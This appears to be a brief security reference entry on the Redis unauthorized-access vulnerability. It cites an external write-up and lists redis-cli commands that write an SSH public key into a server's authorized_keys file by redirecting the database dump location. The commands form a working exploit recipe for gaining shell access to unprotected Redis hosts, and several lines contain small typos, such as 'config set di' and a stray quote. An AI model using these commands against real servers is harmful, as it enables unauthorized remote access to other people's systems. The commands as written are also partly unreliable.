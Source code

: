 # **Redis** #

An open source (BSD licensed), in-memory data structure store, used as a database, cache, and message broker.


## Unauthorized Access Vulnerability

- **Reference**
  https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419
    
- **Concept**
  Insert an SSH key into authorized_keys on a remote redis server through redis-cli. (Generally to host with no passsword protection)
    
- **Commands**
  ```bash
  # from redis cli 
  set <key_name> \n\n\nssh-rsa <rsakey> ssh_user>@<user_ip>\n\n\n\n
  config set di /home/admin/.ssh/"
  config get dir
  config set dbfilename authorized_keys
  save
  ```
